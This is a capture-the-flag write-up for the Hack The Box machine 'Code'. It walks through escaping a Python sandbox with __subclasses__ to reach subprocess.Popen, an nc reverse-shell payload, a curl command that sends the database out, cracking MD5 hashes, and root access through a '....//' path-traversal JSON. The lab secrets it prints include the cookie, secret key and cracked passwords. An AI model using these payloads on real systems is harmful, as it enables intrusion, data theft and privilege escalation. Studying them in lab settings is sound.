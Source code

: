 ![https://app.hackthebox.com/machines/653](https://app.hackthebox.com/machines/653)

## ENUM

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
```

site hosted at: [http://10.10.11.62:5000/](http://10.10.11.62:5000/)

```
===============================================================
[+] Url:                     http://10.10.11.62:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 818]
/codes                (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 730]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 741]
Progress: 4614 / 4615 (99.98%)
===============================================================
```

I will now use the site normally with Burp to analyze the traffic.

## INITIAL ACCESS

By using the service, I register a code and access it via the interface located at [http://10.10.11.62:5000/codes](http://10.10.11.62:5000/codes)

![alt text](note/ctf/asset/HTB_code0.png)

I notice the ID which may possibly be a lead to follow.

I will analyze the traffic in detail now that I have tested the service.

I find this cookie after my registration:
`.eJzNj7EKAjEQRH9l3TpcY3d_IFiInchxLMleXIgbyCaKHPfvphVLG6sp3ryBWXFeEtmNDcfrilB74J3NKDI6PHMUq4WqZAVr3neytLSDS27gSUHzE1KOIDrgtLnvhYM-KEkAXziwVqFkA5wSkzHU8gKK9Hfu76-POcqH2muTw2ZcZgk47rc3MC-Avg.aGhhzw.XzQb8mECgGghn8HdWybDRBwF9h8`

I try exploiting the code ID but nothing interesting…

I focus on the code window itself.

I can’t do imports etc. However, it does display complete errors (via `raise`, `Exception`, etc.). Maybe I can leak something?

I will try to leak the classes loaded in memory. Why?

To find a library already loaded (so without import) and use it without being blacklisted!

To find useful classes to execute code such as subprocess.Popen which allows executing commands:

```python
classes = (()).__class__.__bases__[0].__subclasses__()
for i, cls in enumerate(classes):
    print(i, cls)
```

and I find it here: `317 <class 'subprocess.Popen'>`

I try to execute it like this:
`(()).__class__.__bases__[0].__subclasses__()[317]("ls", shell=True).communicate()`

but it doesn’t work, so I use raise!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "whoami", shell=True, stdout=-1).communicate()))
```

![alt text](note/ctf/asset/HTB_code1.png)

Perfect, I generate a reverse shell payload!

```python
raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317](  
    "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.123 4848 >/tmp/f", shell=True, stdout=-1).communicate()))
```

And I can display user.txt.

## OWN USER:

Now that I am on the machine, I will search some files including app.py which corresponds to the application, I find interesting elements:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

I see a secret key and a database.

```shell
root:x:0:0:root:/root:/bin/bash
...
app-production:x:1001:1001:,,,:/home/app-production:/bin/bash
martin:x:1000:1000:,,,:/home/martin:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

So a user named martin and root (since im app-production).

And if the database contained martin’s password?

I exfiltrate it: `curl -F 'data=@/home/app-production/app/instance/database.db' http://ip:port`

and I find:

| user        | password                         |
| ----------- | -------------------------------- |
| development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| martin      | 3de6f30c4a09c27fc71932bfc68474be |

I try SSH login with it but it doesn’t work and that’s normal… it looks a lot like an MD5 hash! I crack it: `nafeelswordsmaster`

`ssh martin@10.10.11.62`

and it works!

I crack the dev one just in case: `development`

Here are the interesting results from linpeas:

#### Linpeas results:

processes running as root:

```
root         851  0.0  0.2 241372 11340 ?        Ssl  Jul04   0:00 /usr/sbin/ModemManager
...
root        3075  0.0  0.2 249528  9512 ?        Ssl  Jul04   0:00 /usr/lib/upower/upowerd
```

#### BIG LEAD

```
Matching Defaults entries for martin on localhost:                                                                                                                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I analyze the script:

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

It parses a JSON used to make a backup with backy, so if I provide a good JSON that extracts root (via a custom path traversal that bypasses the filter: `updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file"))`

then I will be able to own root. I look for documentation:

[https://github.com/vdbsh/backy](https://github.com/vdbsh/backy) perfect, I cook the JSON:

```json
{
  "destination": "/home/martin",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/home/....//root/"
  ]
}
```

I execute it: `sudo /usr/bin/backy.sh payload.json`

and I retrieve the tar.gz file:
`scp martin@10.10.11.62:/home/martin/code_home_.._root_2025_July.tar.bz2 .`

and I own root! ✅
